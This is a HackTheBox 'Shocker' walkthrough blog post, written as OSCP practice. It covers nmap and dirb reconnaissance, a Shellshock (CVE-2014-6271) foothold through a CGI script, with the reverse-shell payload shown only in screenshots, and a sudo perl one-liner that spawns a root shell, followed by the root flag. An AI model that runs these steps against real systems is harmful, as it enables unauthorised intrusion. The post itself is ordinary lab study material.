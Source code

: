 ```yaml
---
layout: post
title: HackTheBox - Shocker
date: 2020-12-23 13:32:00 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, dirb, cgi-bin, shellshock, CVE-2014-6271, metasploit, meterpreter, GTFOBins, writeup, oscp-prep]
image: /assets/img/htb/machines/linux/easy/shocker/shocker.png
---
```


## Foothold

### `nmap` scan

{% highlight bash %}
$  nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Shocker-full-port-scan.txt 10.10.10.56
Nmap scan report for 10.10.10.56
Host is up (0.099s latency).
Not shown: 65532 closed ports
PORT      STATE    SERVICE VERSION
80/tcp    open     http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp  open     ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
53649/tcp filtered unknown
{% endhighlight %}

### Apache/2.4.18 (port 80) 

![dont-bug-me](/assets/img/htb/machines/linux/easy/shocker/dont-bug-me.png)

![dirb](/assets/img/htb/machines/linux/easy/shocker/dirb.png)

Seeing that there is a `/cgi-bin directory`, the webserver is probably vulnerable to Shellstock bash RCE.

> **Shellshock bash remote code execution vulnerability**: affects web servers utilizing **CGI** (**C**ommon **G**ateway **I**nterface) &rarr;  a system for generating dynamic web content. Directories such as `/cgi-sys`, `/cgi-mod`, `/cgi-bin` can be found.

Adding `-X .sh` to `dirb`, we found a [user.sh](http://10.10.10.56/cgi-bin/user.sh) file:

![user-sh](/assets/img/htb/machines/linux/easy/shocker/user-sh.png)

![user-sh-content](/assets/img/htb/machines/linux/easy/shocker/user-sh-content.png)


We can have a shell via `metasploit`:

![shellshock](/assets/img/htb/machines/linux/easy/shocker/shellshock.png)

![meterpreter](/assets/img/htb/machines/linux/easy/shocker/meterpreter.png)

However, since I do this box to get ready for **OSCP**, I want to exploit this vuln manually. Via `curl` or from `burp`, I replace `User-agent`'s content by a **reverse shell** payload:

![burp-1](/assets/img/htb/machines/linux/easy/shocker/burp-1.png)

First we've got the following error: `/bin/bash: bash: Nu such file or directory`.

So I replace `bash` by `/bin/bash` and it worked:

![burp-2](/assets/img/htb/machines/linux/easy/shocker/burp-2.png)

## User (shelly)

Flag:

![user-flag](/assets/img/htb/machines/linux/easy/shocker/user-flag.png)

We can run `perl` with sudo:

![sudo -l](/assets/img/htb/machines/linux/easy/shocker/sudo-l.png)

Let's check [GTFObins](https://gtfobins.github.io/gtfobins/perl/) privesc:

![gtfoperl](/assets/img/htb/machines/linux/easy/shocker/gtfoperl.png)

## Root

{% highlight bash %}
shelly@Shocker:/home/shelly$ sudo /usr/bin/perl -e 'exec "/bin/sh";'
sudo /usr/bin/perl -e 'exec "/bin/sh";'
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
cat root.txt 
9be1ed1fbbe0c3319f9cc05dbcdb7941
{% endhighlight %}

___

## Useful links

- [CVE-2014-6271](https://nvd.nist.gov/vuln/detail/CVE-2014-6271#vulnCurrentDescriptionTitle)
- [Exploit Shellshock on a Web Server Using Metasploit](https://null-byte.wonderhowto.com/how-to/exploit-shellshock-web-server-using-metasploit-0186084/)
- [GTFObins](https://gtfobins.github.io/gtfobins/perl/)